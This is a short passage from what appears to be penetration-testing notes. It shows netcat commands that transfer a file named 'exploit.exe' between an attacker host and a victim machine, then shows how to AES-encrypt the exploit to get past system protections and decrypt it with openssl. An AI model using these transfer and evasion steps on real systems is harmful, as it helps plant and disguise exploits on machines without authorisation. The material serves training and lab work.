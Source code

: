 
# Other 

## Netcat 

Creating the file in the target:
```console
victim@machine$ nc -l -p <port> > exploit.exe
```

Uploading:
```console
zero@pio$ wget -q <target url file>
zero@pio$ nc -q 0 <target ip> <port> < exploit.exe
```

Also we can do the opposite:
```console
zero@pio$ sudo nc -l -p <port> -q 0 < exploit.exe
victim@machine$ nc <your ip> <port> > exploit.exe
```

---

# Protected Files 

Sometimes the system could be protected agaisnt this scripts. We can encrypted and decrypted it to work.

## Windows

For example, [this](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1) script will encrypt our exploit. The usage is:
```console
PS C:\victim> Import-Module .\Invoke-AESEncryption.ps1
PS C:\victim> Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\<file>
```

## Linux 

- openssl 

```console
zero@pio$ openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <file> -out <output file>
```
